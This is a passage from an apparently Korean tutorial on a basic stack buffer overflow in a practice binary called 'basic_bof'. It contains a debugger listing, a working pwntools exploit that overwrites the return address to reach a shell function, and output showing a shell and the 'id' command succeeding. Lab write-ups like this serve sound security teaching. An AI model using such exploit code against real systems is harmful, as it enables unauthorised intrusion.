```
    0x80491a8 <main+15>        call   0x8049060 <__isoc99_scanf@plt>
 →  0x80491ad <main+20>        add    esp, 0x8
    0x80491b0 <main+23>        lea    eax, [ebp-0x14]
    0x80491b3 <main+26>        push   eax
    0x80491b4 <main+27>        call   0x8049040 <printf@plt>
    0x80491b9 <main+32>        add    esp, 0x4
    0x80491bc <main+35>        mov    eax, 0x0
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "basic_bof", stopped 0x80491ad in main (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80491ad → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

위 정보를 이용하여 pwntool를 이용해 다음과 같이 exploit할 수 있음
```python
from pwn import *

context.log_level = 'debug'
r = process("./basic_bof")

shell=0x08049186

buf=b''
buf+=b'a'*24
buf+=p32(shell)

r.sendline(buf)

r.interactive()
```

```sh
$ python3 exploit.py 
[+] Starting local process './basic_bof' argv=[b'./basic_bof'] : pid 36092
[DEBUG] Sent 0x1d bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  86 91 04 08  0a           │aaaa│aaaa│····│·│
    0000001d
[*] Switching to interactive mode
$ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x90 bytes:
    b'uid=1000(foo1) gid=1000(foo1) groups=1000(foo1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),138(docker)\n'
uid=1000(foo1) gid=1000(foo1) groups=1000(foo1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),138(docker)
$  
```
